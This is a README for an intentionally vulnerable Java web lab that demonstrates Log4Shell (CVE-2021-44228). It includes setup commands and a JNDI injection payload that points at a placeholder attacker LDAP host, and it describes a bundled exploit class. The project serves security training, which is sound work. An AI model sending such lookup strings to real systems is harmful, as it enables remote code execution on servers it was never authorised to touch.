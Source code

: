 # CVE-2021-44228 Log4jShell WebApp

This is a minimal Java web application vulnerable to **Log4Shell (CVE-2021-44228)**, built with:

- Java + Jetty (embedded)
- Log4j 2.14.1 (vulnerable)
- LDAP-server voor JNDI-exploits
- Simple HTML form
- Java exploit payload ('Exploit.class')

---

## Quick Start

### Prerequisites:
- Debian/Ubuntu-based system
- Internet access
- Python 3

### Clone the repository:
```bash
git clone https://github.com/SanderSchepers1993/CyberSec25.git
cd CyberSec25/scripts
```

### Run the setup script:
```bash
chmod +x run_exploit.sh
./run_exploit.sh
```

Open your browser and visit:
[http://localhost:8080](http://localhost:8080)

---

## Test Payload (work in progress)

Submit the following payload to the form:
```text
${jndi:ldap://Attacker-IP:ldap-port/a}
```
This will be **logged by Log4j**, potentially triggering the Log4Shell exploit **if you have a rogue LDAP server running**.

---

## Project Structure
```
CyberSec25/
├── Exploit/
    └── Exploit.java/class
├── ldap/
    └── LDAP-SERVER (JNDI redirector)
├── webapp/
    └── Kwetbare webapp (Jetty + log4j)
└── libs/
    └── Dependencies (via setup.sh)
├── scripts/
    ├── run_exploits.sh
    └── setup.sh
├── README.md
└── test_payload.txt
```

---

## Disclaimer
This project is intentionally vulnerable. Use responsibly in **isolated test environments** only. The author takes no responsibility for misuse.
